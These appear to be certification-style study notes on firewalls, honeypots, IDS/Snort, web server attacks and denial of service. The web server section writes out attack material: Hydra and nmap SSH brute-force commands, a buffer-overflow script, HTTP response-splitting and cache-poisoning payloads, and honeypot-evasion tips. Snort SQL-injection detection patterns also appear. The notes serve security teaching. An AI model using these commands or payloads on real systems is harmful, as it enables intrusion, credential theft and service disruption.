    - ACL are processed in top down meaning if a condition is met all processing is stopped.

#### Packet inspection

##### Port-based classification

- E.g. TCP 80 = HTTP
- Old way, today it's useless as assumptions can be wrong

##### QoS markers (DSCP)

- Similar to port-based but based on QoS tags for prioritization
- Ignored as it's easy to cheat and forge

##### Statistical traffic classification

- Based on manual rules or ML (machine learning) dataset
- Hard to create a good dataset and poor accuracy for cases outside of the set

##### Deep Packet Inspection (DPI)

- Inspecting packet payload
- Encrypted payload (e.g. HTTPS) ensures privacy and confidentiality
- Can see DNS query name, HTTP Host/Server fields and SSL/QUIC SNI (Server Name Indication)
- Important for cloud applications sharing same IPs
- Used in e.g. state censorship, and cloud-generation firewalls
- Tools: [ntop](https://github.com/ntop/ntopng) that's based on [nDPI](https://github.com/ntop/nDPI)

#### Stateful firewalls

- Also known as ***stateful inspection firewalls***
  - Stateful inspection is also known as **dynamic packet filtering**
- Keeps state of open connections.
- When a packet arrives, its header is examined to determine if it belongs to an already established connection.
- If it belongs to a connection, then it's allowed to go through
- Analyzed against defined set of rules to determine if connection is allowed to flow through
- E.g. will filter `ACK` without [TCP connection](./../03-scanning-networks/tcpip-basics.md#three-way-handshake) establishment (with `SYN`)

##### Zone-based firewall

- 
- Type of [stateful](#stateful-firewalls) network and [multi-homed](#multi-homed-firewalls) firewalls.
- Allows setting up rules such to filter / inspect traffic between zones.

###### Firewall zone

- Logical area in which the devices having same trust levels resides.
- An interface is assigned to a zone.
- By default, traffic is not allowed from one zone to another.
- Common zones
  - **Private**: inside | Most trusted network
  - **Public**: outside | Untrusted network
  - **DMZ (demilitarized)**: neutral | Sits in-between private and outside

#### firewalld

- Zone-based network level firewall on Linux
- Rules can be
  - **Runtime**: For duration of the session
  - **Permanent**: Persists through reboot or reload of a firewall
    - ❗ Requires `firewall-cmd --reload` to apply the rules.
- Commands:
  - Install: `yum install firewalld`
  - Start: `systemctl start firewalld`
  - Add rule (allow access): `firewall-cmd --permanent --zone=public --add-port=80/tcp`
  - Remove rule (deny access): `firewall-cmd --permanent --zone=public --remove-port=80/tcp`
  - Reload to apply changed rules: `firewall-cmd --reload`
  - Block access from different countries through geo IP block
    1. Download ip blocks at e.g. [ipdeny.com](https://www.ipdeny.com/ipblocks/)
       1. Download: `wget https://www.ipdeny.com/ipblocks/data/countries/all-zones.tar.gz`
       2. Extract: `tar -vxzf all-zones.tar.gz`
    2. Create a list called e.g. `blacklist`: `firewall-cmd --permanent --new-ipset=blacklist --type=hash:net --option-family=inet`
       - `--type`: `hash` is the storage type, `:net` is to block whole subnet
       - `--inet`: ipv4
    3. Add entries to list: `firewall-cmd --permanent --ipset=blacklist --add-entries-from-file=us.zone`
    4. Apply entries in list
       - Deny access: `firewall-cmd --permanent --zone=drop --add-source=ipset:blacklist`
       - `firewall-cmd --reload`
- In `/etc/firewall/firewall.d` file you can e.g. enable logging for denied traffic.
  - 💡 Careful for what you log as they can grow rapidly as servers, web applications etc. are also logging.

### Circuit level gateway firewalls

- Also known as **circuit-level gateway**
- 📝 Monitors TCP handshakes to determine if the requested connection is legitimate.
- 📝 Implemented on
  - OSI model: Session Layer (5)
  - TCP/IP stack: Between application (4) and transport layer (3)
- It acts as a proxy server using address translation
  - Maps all of internal IP addresses to one "safe" IP address for incoming packet
  - Address is associated with the firewall from which all outgoing packets originate
  - Provides security as untrusted network is only aware of single IP address

### Application level firewalls

- Also known as **proxy firewall**, **application firewall** or **gateway firewall**.
- Installed on a proxy server to act as a barrier between internal and external networks.
- Implemented on the application layer.
- 📝 Designed to filter traffic only for the protocols for which they are configured.
- Exposes single address instead of exposing internal network.
  - Clients first establish a connection with a proxy firewall, and then a new network connection is initiated on the client's behalf.
  - Utilizes NAT (Network address translation) to make the translations
- Can function in two modes:
  - **Active application-level firewalls**: Actively reject or deny requests
  - **Passive application-level firewalls**: More like IDS, does not filter

#### Web Application Firewall (WAF)

- Type of an application firewall that filters, monitors, and blocks HTTP traffic to and from a web service.
- 📝 It can prevent attacks exploiting a web application's known vulnerabilities
  - E.g. [injection](./../13-web-applications/owasp-top-10-threats.md#injection), [cross-site scripting (XSS)](./../13-web-applications/owasp-top-10-threats.md#cross-site-scripting-xss), file inclusion, and improper system configuration.

#### Application level vs Network level Firewalls

| Capability | Application level | Network level |
| ------- | ----------------- | ------------- |
| **Configuration** | Advanced | Narrow (IPS and ports) |
| **Coverage** | Small (protocol-specific) | Wider (any IP-based) |
| **Speed** | Slower | Faster |
| **Application threats** | Greater security | Blind |

- 💡 Use multiple layers of defense in depth
  - Level 3 firewall at the edge that only allows inbound traffic on the specific ports used by apps
  - Route those ports to an L7 firewall for deeper inspection.

### Stateful multilayer inspection firewall

- Combination of different firewalls:
  - [packet filtering](#packet-filtering-firewalls) *(network layer)*: to filter packets
  - [circuit level](#circuit-level-gateway-firewalls) *(session layer)*: to verify legitimate sessions
  - [application level](#application-level-firewalls) *(application layer)*: to evaluate packets
- A type of **hybrid firewall** as it's a mix of some of the firewalls already

### Network Address Translation (NAT)

- Implemented by many firewalls just like routers
- Enables LAN to use different sets of IP addresses for external and internal traffic.
- NAT modifies the packet's IP header and translates one address space into another
- NAT allows to hide the layout of the internal network.
- **Basic NAT**
  - One-to-one mapping where each internal IP is mapped to a unique public IP.
  - Too expensive to implement
- **Port address translation (PAT)**
  - Also known as ***network address and port translation (NAPT)***, ***IP masquerading***, ***NAT overload*** and ***many-to-one NAT***.
  - Allows multiple internal IP addresses to be mapped to single public IP
  - Uses different port (and other items) for each web conversation.
  - Typically used as is the cheaper option.
- Dynamic vs Static NAT
  - **Static NAT**: one-to-one internal to public static IP address mapping
  - **Dynamic NAT**: uses a group of available public IP addresses.

### Virtual Private Network (VPN)

- A network which enables a secure connection to a private network through the Internet.
- Information is protected by encryption and integrity checks.
- Can use e.g. [IPSec](./../15-cryptography/tunneling-protocols.md#ipsec) or [OpenVPN](./../15-cryptography/tunneling-protocols.md#openvpn) tunnelling protocol.
# Honeypots

- Designed as a trap for attackers who try to access the network.
- Any interaction with a honeypot points to a malicious activity.
- E.g. free proxy servers, VPNs, WiFis...
- Can be used by law enforcements to e.g. get IP of attackers, or malicious people to blackmail you.
- IDP (intrusion detection prevention) systems or admins can redirect intruders to a virtual machine as honeypot.

## Honeypot types

- **Low-interaction honeypots**
  - Mimic small number of applications and services that run on a system or network.
  - Capture information about network probes and worms.
- **Medium-interaction honeypots**
  - Mimic real operating system, applications and services
  - Capture more data compared to low-interaction honeypots
- **High-interaction honeypots**
  - Run real operating systems and applications
  - Gather information about the techniques and tools used in the attack.
- **Production honeypots**
  - Mimic the organizations real production network allowing more attacks
  - Helps network admins to take preventive measures to reduce the probability of an attack
  - Differs from high-interaction honeypots as they do not run real operating systems or applications.
- **Research honeypots**
  - High-interaction honeypots
  - Mainly used by security analysis and researchers
  - Goal is to understand how the attack was performed

## Evading honeypots

- Goal is to avoid being trapped in a honeypot
- Tools are used to detect honeypots that are installed on the network.
- Well configured honeypot is nearly impossible to detect.
- Best to target specific IPs known ahead of time to be valid machines.
- Some giveaways (see [discussions](https://security.stackexchange.com/questions/90642/is-it-possible-to-detect-a-honeypot), [paper](https://ro.ecu.edu.au/cgi/viewcontent.cgi?referer=&httpsredir=1&article=1027&context=adf)):
  - They can be to good too obviously insecure e.g. sitting near DMZ.
  - No network traffic
  - Unrealistic configurations e.g. IIS server on Linux, file names, drivers (e.g. VMWare defaults) etc.
  - Attacker can detect if it's running in a VM, disrupt the VM.
  - Performance degradation or fails under a sustained attack because of e.g. insufficient bandwidth.
  - Logging instructions affects total execution time of hacker commands.
- There are some attempts to automate such as [Honeypot Hunter](https://send-safe-honeypot-hunter.apponic.com/) (commercial scanner) or using [machine learning](https://www.hindawi.com/journals/scn/2019/2627608/).

## Setting up a proxy server as honeypot

- 🤗 This walkthrough is out of scope to to get better understanding, unrelated to exam.
- Setup the honeypot
  - Install [`squid`](http://www.squid-cache.org/) the proxy server: `yum install squid`
  - Start `squid`: `systemctl start quid`
  - Start automatically on reboot (good for cloud machines): `systemctl enable quid`
  - Configure in `vim /etc/squid/squid.conf`:
    - Has ACL (access list) rules to e.g. allow source ip ranges and ports for access
  - People can now use the proxy server with its public ip and port `3128` as default.
  - It will be detected by automated crawlers on internet that's looking for e.g. vulnerabilities.
- Monitor the traffic using sniffing tools such as [`tcpdump`](./../08-sniffing/sniffing-tools.md#tcpdump) or [Wireshark](./../08-sniffing/sniffing-tools.md#wireshark)
  - Create a named pipe (aka FIFO) file: `mkfifo myPipe.fifo`
  - Redirect proxy server logs to a local file
    `ssh root@<proxy-server-ip> "tcpdump -s 0 -U -n -w - -i eth0 not port 22" > myPipe.fifo`
    - `-s 0`: sets snapshots length to default `262144` bytes to take
    - `-U`: unbuffered, dump anything
    - `-n`: don't convert addresses to names
    - `-w`: write file instead of parsing and printing them out.
      - `-`: means standard output, so it writes to standard output.
    - `-i eth0`: capture traffic on `eth0` interface
    - `not port 22`: filter out own connection to the server
  - Run `wireshark-gtk -k -i myPipe.fifo` to start wireshark
- You can now use proxy using e.g. Firefox and see the traffic.
# Intrusion detection system (IDS) overview

- Detects intrusions in real time and alerts
- Can filter the traffic and alert the security personnel
  - Also known as ***intrusion detection and prevention systems (IDPS)*** or ***intrusion prevention systems (IPS)***
- Inspects both incoming (inbound) and outgoing (outbound) traffic
- Can be a software or hardware
- Usually placed near the firewall
  - Inside or outside depending on which traffic is being monitoring
  - 💡 Good to deploy on both places (before and after DMZ) for layered defense

## Intrusion types

- **Filesystem intrusion**
  - Unexpected creation/deletion/modification of files or file attributes (e.g. permissions)
- **Network intrusion**
  - Increase in bandwidth consumption
  - Unexpected incoming connections e.g. attempted logins
  - Sudden increase of logs can be caused by DoS/DDoS
- **System intrusion**
  - Missing/modified for log, system or configuration files
  - Degradation in system performance
  - Unfamiliar processes, system reboots, crashes

## IDS types

### Network-based vs Host-based IDS

- Comparison

  | | [NIDS](#network-based-intrusion-detection-systems-nidss) | [HIDS](#host-based-intrusion-detection-systems-hidss) |
  |-|----|----|
  | Strength | Sensing attacks from outside | Sensing attacks from inside that NIDS cannot examine |
  | Packet headers | Examines | Does not understand |
  | Host | Independent | Dependent |
  | Bandwidth | In need of | Does not require |
  | Performance | Slows down networks where it's installed | Slow down hosts where it's installed |
  | Attack types | Senses network attacks as payload is analyzed | Senses local attacks before they hit the network |
  | False positive rate | High | Low |
  
- See also [WIDS (Wireless Intrusion Detection system)](./../09-wireless-networks/wireless-security-tools.md#wireless-intrusion-detection-systems-wids)

#### Network-based intrusion detection systems (NIDSs)

- Also known as ***network-based IDS***
- Inspects each incoming packet for anomalies and suspicious patterns.
- Can detect DoS attacks, port scans, or break-in attempts.

##### Network tap

- Typically a hardware device, which provides a way to access the data flowing across a computer network.
- Provide IDS visibility into the traffic flowing over the network
- E.g. a hub connected on the segment or a network appliance created specifically for the task

##### Snort

- [Open-source](https://www.snort.org) NIDS that's most widely deployed
- Rule-based IPS to detect and stop packages
- Can block expressions such as
  - ` /(\%27)|(\')|(\-\-)|(\%23)|(#)/ix`
  - `/((\%27)|(\'))union/ix`

###### Snort configurations

- Alerts are defined in Snort configuration file
  - Configuration file is at `/etc/snort`, or `C:\Snort\etc`
- Can be configured to use as:
  - packet sniffer
    - E.g. `snort -vde`
  - packet logger
    - E.g. `./snort -dev -l ./log`
  - Network intrusion detection system by
    - Does not drop packets
    - Evaluates packets to check all alert rules, logging the matches.
    - E.g. `./snort -dev -l ./log -h 192.168.1.0/24 -c snort.conf`
  - Network intrusion protection System

###### Snort rules

- All rules are checked for each packet
- If multiple matches are found:
  - Alerts the most unique (specific) rule ignoring the more generic one.
- 📝 **Syntax**
  - Action protocol address port -> address port (option:value;option:value)
  - E.g. `alert tcp 10.0.0.1 25 -> 10.0.0.2 25 (msg:"Sample Alert"; sid:1000;)`

#### Host-Based intrusion detection systems (HIDSs)

- Also known as ***host-based IDS***
- 📝 Analyzes behavior and events on a particular host e.g. a desktop PC or a server.
- Can detect both anomalies and unauthorized changes in the filesystem.
- Log file monitoring (LFM): Monitoring logs files for malicious events.
- **File integrity checking**
  - Checking for modified files e.g. [ossec-hids](https://github.com/ossec/ossec-hids)
  - Compares the current hash value of the file against its known-good hash value.
- E.g. [Windows Defender](https://www.microsoft.com/en-us/windows/comprehensive-security), [Norton Internet Security](https://us.norton.com/internet-security)..

### Active vs passive IDS

#### Active IDS

- Also known as **Intrusion Detection and Prevention System (IDPS)** or **Intrusion Protection Systems (IPS)**
- Configured to automatically block suspected attacks without any intervention required by an operator

#### Passive IDS

- Configured to only monitor and analyze network traffic activity and alert
- Does not perform any protective or corrective functions on its own

### Signature-based vs Anomaly-based IDS

- 💡 Recent systems uses both (hybrid approach) to cover each others flaws

#### Signature recognition

- Also known as ***misuse detection***, ***signature based IDS*** or ***signature-based IDS***
- 📝 Compares incoming and outgoing traffic to the signatures of already known attacks
- Based on a database of previous attack signatures and known system vulnerabilities.
- A signature is a recorded evidence of an intrusion or attack
- 📝 **Pros**
  - Little false positives
  - No need for a training phase, starts working out of the box
- 📝 **Cons**
  - Vulnerable to unique attacks, easy to fool
  - High dependency of latest updates, constant maintenance
  - Signature data consumes traffic

#### Anomaly detection

- Also known as ***not-use detection***, ***behavior based IDS*** or ***behavior-based IDS***.
- 📝 Analyzes characteristics of the system's users and components and looks for deviations.
- Learns pattern of normal system activity to identify active intrusion attempts.
- Deviations from this baseline or pattern cause an alarm to be triggered.
- Can use artificial intelligence or can be based on heuristics or rules
- 📝 **Pros**
  - More suitable for blocking future unknown attacks
  - Low dependency of latest updates, constant maintenance
- 📝 **Cons**
  - Higher false positive alarm rates
  - Challenging to construct a model thoroughly on a regular network.

##### Protocol anomaly detection

- Identifies anomalies specific to a protocol
- Uses a model of the different ways vendors deploy the TCP/IP protocol.

## IDS alerts

- 📝 **IDS alert types**
  - **True positive**: Attack + Alert
  - **False positive**: No attack + Alert
  - **True negative**: No attack + No alert
  - **False negative**: Attack + No alert
  - 💡 False negatives are considered far worse than false positives
- 📝 **IDS alert thresholding**
  - Also known as ***alert throttling*** or ***event filtering***.
  - Reducing the volume of repeated alerts
  - E.g. ignore alerts after nth times during X minutes

## Firewall vs IPS vs IDS

| | [Firewall](./firewall-overview.md) | IPS | IDS |
| --------- | ------- | ------ |
| **Abbreviation for** | - | Intrusion Prevention System | Intrusion Detection System |
| **Firewall** | Filters incoming and outgoing network traffic based on predetermined rules | Inspects traffic, detects it, classifies and then proactively stops malicious traffic from attack. | Monitors a traffic for malicious activity or policy violations and sends alert on detection. |
| **Working principle** | Filters traffic based on IP address and port numbers (layer 3), state of the connection (layer 4), or contents of packet (layer 7) | Inspects real time traffic and looks for traffic patterns or signatures of attack and then prevents the attacks on detection | Detects real time traffic and looks for traffic patterns or signatures of attack and them generates alerts |
| **Configuration mode** | Layer 2 to 7 | Layer 3 and 4 |  Layer 2 to 7 |
| **Usual placement** | First line of defense | After firewall | After firewall |
| **Action on unauthorized traffic detection** | Block the traffic | Block the traffic |  Alerts/alarms |
# Hacking web servers

## Web server

- System used for storing, processing, and delivering websites
- Hosts web applications, allowing clients to access those applications
- Implements client-server model architecture where client can be e.g. a browser or an API.

### Web server concepts

- **Document root**
  - Root directory of servable documents
  - E.g. HTML, JS, image files...
- **Server root**
  - Root directory of all the code that implements the server.
  - Stores configuration, log, and executable files
- **Virtual document tree**
  - Used when the original disk becomes full
  - Located sometimes on different disk, possibly on a different machine
- **Virtual hosting** is multiple sites on a single server
- **Web proxy**
  - Also known as **HTTP proxy**
  - Server placed between the client and server
  - All requests coming from the client go through the proxy to the server
    - instead of directly going to the server
- **Open-source Web Server Architecture**
  - Typically uses
    - **Linux** as an OS
    - **Apache** as a web server
    - **MySQL** as a database
    - **PHP (LAMP)** as principal components.
- **Internet Information Service (IIS)**
  - Web server application developed for Windows Server

## Web server hacking methodology

1. **Information gathering** e.g.:
   - Acquiring `robots.txt` to see directories/files that are hidden from web crawlers.
   - Internet searches, WHOIS
   - 📝 Testing HTTP methods
     - Checks for `GET`, `HEAD`, `POST`, `OPTIONS`, `DELETE`, `PUT`, `CONNECT`, `TRACE`
     - Risky methods are `DELETE`, `PUT`, `CONNECT`, `TRACE` and should be [disabled](https://wiki.owasp.org/index.php/Test_HTTP_Methods_(OTG-CONFIG-006))
     - `nmap --script http-methods <target>`
2. **Footprinting**
   - E.g.
     - List email addresses: `nmap --script http-google-email`
     - Enumerate common web apps `nmap --script http-enum -p80`
   - Tools: [Netcraft](./../02-footprinting/search-engines-and-online-resources.md#netcraft), HTTPRecon, ID Serve, HTTPrint, [Nmap](./../03-scanning-networks/scanning-tools.md#nmap)
   - See also [Banner grabbing](./../03-scanning-networks/banner-grabbing.md)
3. **Mirror** the target website to browse it offline
   - Tools: • Wget • [BlackWidow](http://softbytelabs.com/wp/blackwidow/) • HTTrack • WebCopier Pro • Web Ripper • SurfOffline
4. Discover vulnerabilities using e.g.:
   - 📝 **[Nikto](https://github.com/sullo/nikto)**
     - Web-server scanner focusing on • misconfigurations • outdated/insecure files
     - Read more in [Vulnerability analysis | Nikto](../05-vulnerabilities/vulnerability-analysis.md#nikto)
   - **[Metasploit](./../05-vulnerabilities/automated-penetration-testing-tools.md#metasploit)**
     - Find, exploit and validate vulnerabilities
5. Perform [**session hijacking**](./../13-web-applications/session-hijacking.md) and [**password cracking**](./../06-system-hacking/cracking-passwords-overview.md) attacks

## Web server hacking tools

- [Wfetch](https://support.microsoft.com/en-us/help/284285/how-to-use-wfetch-exe-to-troubleshoot-http-connections): Microsoft tool to customize and send HTTP requests
- [THC Hydra](https://github.com/vanhauser-thc/thc-hydra): login cracker which supports numerous protocols to attack
- [HULK DoS](https://github.com/grafov/hulk): DoSer
- [w3af](http://w3af.org): web application security scanner
- [Metasploit](./../05-vulnerabilities/automated-penetration-testing-tools.md#metasploit): Penetration testing suit

## Web server hacking countermeasures

- Patch and update server regularly
- Encrypt the traffic.
  - See also [Encrypting communication | Cryptography](./../15-cryptography/encrypting-communication.md)
- Enforce code access security policy
- Monitor logs
- Use website change detection system
  - Check server files with hash comparison and alert if any modifications has happened.
- Filter traffic to [SSH](./../15-cryptography/tunneling-protocols.md#ssh-secure-shell) server
- Default passwords and unused default accounts should be changed and disabled respectively.

### Place web servers securely

- Place web servers in separate secure server security segment on network
- Recommend to have three layered web application network: Internet, DMZ, internal
  - See also [Multi-tier architecture | Hacking web applications](./../13-web-applications/hacking-web-applications.md#multi-tier-architecture)
- Place web servers in DMZ zone isolated from public network as well as internal network.
  - See also [Network security zoning | Network security](./../01-introduction/network-security.md#network-security-zoning)
- Each layer should have its own firewalls
  - See also • [Zone-based firewall | Firewall](./../11-firewalls-ids-and-honeypots/firewall-overview.md#zone-based-firewall) • [Screened subnet firewalls | Firewall](./../11-firewalls-ids-and-honeypots/firewall-overview.md#screened-subnet-firewalls)

### Securing ports

- Audit the ports regularly
- Disabling insecure and unnecessary ports.
- Use Port 443 HTTPS over port 80 HTTP.

### Using certificates

- Ensure validity of certificate data ranges and certificate's public key
- See also [Digital certificate | Cryptography](./../15-cryptography/encrypting-communication.md#digital-certificate)

### Securing IIS

- [Securing your web server | Microsoft docs](https://docs.microsoft.com/en-us/previous-versions/msp-n-p/ff648653(v=pandp.10))
  - `Machine.config`
    - Disable tracing (`<trace enable="false"/>`)
    - Turn off debug compiles.
  - 📝 Remove unnecessary ISAPI extensions and filters
    - Allows custom Web Request handling
    - Exploited heavily by attackers in the past.
# Web server threats and attacks

## DoS/DDoS attacks

- Flooding server with large number of requests to prevent it from functioning properly.
- Services targeted include
  - network bandwidth
  - memory
  - application exception handling mechanism
  - database / hard disk space
  - CPU usage
- DDoS is distributed DoS (denial of service) attack using more than single machine (bots)

## DNS server hijacking

- DNS (Domain Name System)
  - Resolves a domain name to its corresponding IP address when queried.
  - See also [DNS | DNS enumeration](./../04-enumeration/dns-enumeration.md#dns)
- Attacker compromises a DNS server and change its DNS server to redirect clients to a malicious website.
  - E.g. by configuring DNS server to redirect requests to a rogue DNS server.
- E.g. user types in legitimate URL in a browser but browser redirects to a fake banking site.
- See also [DNS poisoning | Sniffing attacks](./../08-sniffing/sniffing-attacks-overview.md#dns-poisoning)

### DNS server hijacking countermeasures

- Deploying [DNSSEC (DNS authentication)](../08-sniffing/sniffing-attacks-overview.md#dnssec-domain-name-system-security-extension)
- Choosing a more secure DNS server
- Using a VPN

## DNS amplification attack

- A DoS attack is to overwhelm the victims DNS server.
- Includes sending large number of requests to DNS server using target websites IP address.
- Query goes through [DNS servers recursively](#recursive-dns-lookup) until DNS server fails to find the mapping.

### Recursive DNS lookup

- Client asks for a mapping DNS server does not have
- DNS server queries further the root DNS server and then caches the results

### DNS amplification attack flow

1. Attacker spoofs and uses victims IP address as source IP
   - All replies from DNS server will be sent to the victims servers
2. Attacker finds internet domain with many DNS records
   - E.g. `subdomain1.cloudarchitecture.io`, `subdomain2.cloudarchitecture.io`, `subdomain3.cloudarchitecture.io`...
3. Attacker sends DNS queries (using bots) to get all records for the domain
   - Results in large replies (usually split over several packets)
   - The replies are sent to the victim.
     - Victims web server becomes too busy with receiving and merging packets and stops functions.
   - **Amplification**
     - For each short DNS query, DNS server replies with larger response
     - Sometimes up to x100 larger, e.g. 3 MBPS DNS queries is amplified as 3000 MBPS DNS replies to victim.

## Directory traversal attacks

- Manipulating the target URL to gain access to restricted directories.
- Attackers may reach to restricted directories using `../`.
- Can be caused by e.g. code vulnerabilities (such as no proper validation), or poorly patched/configured web servers.

## Man-in-the-middle (MITM) attacks

- Intercepting/altering the traffic between an end-user and web servers.
- Done by tricking client into thinking the attacker is the proxy.
- Allows attacker to steal sensitive information.
- This often uses IP spoofing to trick a victim into connecting to the attack.

## Phishing attacks

- Attackers trick an user into visiting a malicious website.
- See also [Phishing | Social Engineering Types](./../10-social-engineering/social-engineering-types.md#phishing)

## Website defacement

- Changing the visual appearance of the target website.
- Attacker can inject malicious code to show e.g. popups/images or change the whole website.
- Usually exposes visitors to some propaganda, or "hacked by ..." message.
- 📝 Can be done through e.g.  
  - [SQL injection](./../14-sql-injection/sql-injection-overview.md)
  - [Cross-site scripting (XSS)](./../13-web-applications/owasp-top-10-threats.md#cross-site-scripting-xss)
  - [Malware infection](./../07-malware/malware-overview.md)
  - [DNS cache poisoning](./../08-sniffing/sniffing-attacks-overview.md#dns-poisoning)
  - ...

## Web server misconfiguration

- Configuration weaknesses that are exploited.
- E.g. directory traversal, server intrusion, and data theft.
- E.g. Capital One misconfiguration that led to compromising more than 100 million peoples personal data in 2019 ([read more](https://www.nytimes.com/2019/07/29/business/capital-one-data-breach-hacked.html/))
- "Keeping the server configuration secure requires vigilance"— OWASP

## HTTP response splitting attack

- Occurs when HTTP headers are generated dynamically using user input.
  - exploits input validation vulnerability.
- Attacker passes malicious data to a vulnerable application
  - and the application includes the data in an HTTP response header.
- Exploited by injecting new lines into response headers e.g.:
  - Author variable is sent by user such as `Ulle Bulle`
  - Application sets `Set-Cookie author=Ulle Bulle` header in back-end.
  - If user sends following instead (with a newline) he can manipulate the website behavior:

    ```txt
        Ulle Bulle\r\n
        Content-Type: text/html\r\n
        <html>malicious content...</html>
    ```

- Permits variety of attacks such as
  - [Cross-Site Scripting (XSS)](./../13-web-applications/owasp-top-10-threats.md#cross-site-scripting-xss)
  - [Cross-Site Request Forgery (CSRF)](./../13-web-applications/session-hijacking.md#cross-site-request-forgery-csrf)
  - [SQL Injection](./../14-sql-injection/sql-injection-overview.md).

### Defend against HTTP response splitting attack

- **Server admin**
  - Use latest web server software.
  - Regularly update/patch OS and Webserver.
  - Run web vulnerability scanners.
- **Application developers**
  - Restrict web application access to unique IPs.
  - Disallow carriage return (%0d or \r) and line feed (%0a or \n) characters.
  - Comply to RFC 2616 specifications for HTTP/1.1.
- **Proxy servers**
  - Avoid sharing incoming TCP connections among different clients.
  - Use different TCP connections with the proxy for different virtual hosts.
  - Implement "maintain request host header" correctly.
  - See also [Proxy servers | Bypassing IDS and firewall](./../03-scanning-networks/bypassing-ids-and-firewall.md#proxy-servers)

## Web cache poisoning

- Replacing cached content with malicious one.
- Possible by
  - Response-caching on server side
  - [HTTP response splitting](#http-response-splitting-attack)

### Web cache poisoning flow

1. Find the service code that vulnerable to filling the HTTP header field with many headers.
2. Force the cache server to flush its actual cache content
   - E.g. by sending `Pragma: no-cache` or `Cache-Control: no-cache` headers in a request.
3. Send a specially crafted request to store in cache
   - Inject malicious code using HTTP response splitting
   - E.g. GET request where encoded URI does the splitting

     ```txt
       GET http://cloudarchitecture.io/redir.php?site=%0d%0aContent-
       Length: %200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aLast-
       Modified: %20Mon,%2027%20Oct%202009%2014:50:18%20GMT%0d%0aConte
       nt-Length: %2020%0d%0aContent-
       Type: %20text/html%0d%0a%0d%0a<html>deface!</html> HTTP/1.1
       Host: cloudarchitecture.io
       ...
     ```

4. Send the next request.
   - Previously injected content will be the response as it's cached.

## SSH brute force attacks

- Done by cracking SSH login and using SSH tunnels.
- **Flow**
  1. Acquire the SSH login credentials
     1. Port scan to find possible vulnerabilities (e.g. using `nmap`)
     2. Gain login credentials using brute force attack by e.g.
        - Using `metasploit` with `auxiliary/scanner/ssh/ssh_login`
        - Using `hydra` as  `hydra -L users.txt -P passwords.txt ssh://172.16.1.102 -t 4`
        - Using custom script in `nmap` e.g. `nmap 172.16.1.102 -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt`
  2. Create SSH tunnels between two hosts to transfer exploitations.
- See also [SSH | Tunneling protocols](./../15-cryptography/tunneling-protocols.md#ssh-secure-shell)

## Web server password cracking attacks

- Attacker cracks the target server passwords and uses them to perform new attacks.
- Server password can belong to e.g. SMTP and FTP servers, Web shares, SSH tunnels...
- Attacking methods include social engineering, spoofing, phishing, using a trojan horse or virus, wiretapping, keystroke logging.
- See also [Password attack types | Cracking passwords](./../06-system-hacking/cracking-passwords-overview.md#password-attack-types)

### Web server password cracking tools

- **[Brutus](https://www.darknet.org.uk/2006/09/brutus-password-cracker-download-brutus-aet2zip-aet2/)**
  - Cracks online (remote) passwords including FTP, HTTP (form), SMB, Telnet..
- **[THC Hydra](https://github.com/vanhauser-thc/thc-hydra)**
  - Fast login cracker using many protocols
- See also [Password cracking tools](./../06-system-hacking/password-cracking-tools.md)

#### Cain and Abel

- Also known as **Cain & Abel** or **Cain**
- 📝 Password recovery tool for Windows
- Website can be found from [web archive](https://web.archive.org/web/20190603235413if_/http://www.oxid.it/cain.html) as it's down since end of 2019.
- Methods include packet sniffing, dictionary, brute force and cryptanalysis attacks
- Has also modules for e.g. Cisco VPN Client Password Decoding
- See also • [Cain and Abel | Wireless threats and attacks](./../09-wireless-networks/wireless-threats-and-attacks.md#cain-and-abel) • [Cain and Abel | Sniffing tools](./../08-sniffing/sniffing-tools.md#cain-and-abel)

## Web application attacks

- Attacker exploits vulnerabilities in the application code.
- See also [hacking web applications](./../13-web-applications/hacking-web-applications.md)

## Buffer overflow attacks

- Also known as **buffer overrun**
- Anomaly that happens when web server writes data to a buffer in memory that's bigger than buffer size.
  - May cause application crash or other vulnerable behavior.
- Exploited by attacker through sending data in big sizes to the server.
- 📝 Example attack against a local server:

  ```python
    #!/usr/bin/python
    import socket

    big_data = 5000 * 'A'
    payload = "TRUN /.:/" + big_data
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect("10.0.2.4", "9999")
    s.send(payload)
    print "[+] " + str(len(payload)) + " bytes sent"
    s.close()
  ```

- Memory manipulation functions in C and C++ without bound checking are most vulnerable.
  - Higher level languages like Python, Java, and Swift do a better job of protecting against a buffer overflow, but they are still vulnerable.
- Dangerous SQL functions (without checking size of destination buffers) include • `gets()` • `strcpy()` • `stract()` • `printf()`

### NOP Sled

- Oldest and most common way of exploiting stack buffer overflows
- Sends a large # of NOP instructions into buffer.
- Solves the problem of finding the right place for code execution, as NOPs does nothing and target area is big the execution will slide to no-ops where malicious code will be executed.
- Most IDS protect from this attack.
# Denial of service

- Attacker overloads the target system with a lot of traffic
- Goal is to reduce, restrict or prevent accessibility of system resources to its legitimate users

## Botnets

- Bots are software applications that run-automated tasks over the internet
- A botnet is a huge network of compromised systems and can be used by an attacker to launch a DoS attack
- Controlled by **Command and Control server** owned by the attacker
- **Distributed Denial of Service (DDoS)**
  - Using botnets (compromised systems) to perform a DoS attack.
- DoS and DDoS attack tools: • [LOIC](#low-orbit-ion-cannon-loic) • [GoldenEye or Petya](https://en.wikipedia.org/wiki/Petya_(malware))
- See also [Botnet](./../01-introduction/security-threats-and-attacks.md#botnet) and [Botnet trojans](./../07-malware/trojans.md#botnet-trojans)

## Attack vectors

### Volumetric attacks

- Goal is to use up bandwidth of the target network or service.

#### Volumetric attacks types

- **Flood attacks**
  - Sending high volume traffic, can utilize zombies
- **Amplification attacks**
  - Sending magnified traffic, can utilize zombies

#### Volumetric attack techniques

- **UDP flood attack**
  - Flooding random ports of the target server with a huge number of spoofed UDP packets
  - Causes the server to continuously check for applications on the ports.
    - When not found, system responds with `ICMP Destination Unreachable` packet increasing its traffic.
- **ICMP flood attack** or **Ping flood**
  - Flooding with ICMP echo request packets.

##### Smurf attack

- 📝 Flooding a IP broadcast network with ICMP echo request packets with victim IP address as source
- Causes hosts in the network respond to received requests/responds targeting the victim.
- Leads to server overloads in victim caused by too many replies.
- The reason to attack broadcast address is to send so many ICMP requests going to the target that all its resources are taken up.
- Mitigated by either
  - configuring routers/hosts to not respond to ICMP broadcasts/requests
  - configuring routers to not forward packets directed to broadcast addresses
- See also [Broadcast ICMP ping](./../03-scanning-networks/scanning-techniques.md#broadcast-icmp-ping)

##### Ping of death attack

- 📝 Sending irregular or big packets using `ping` command
- Attacker fragments ICMP message to send to target.
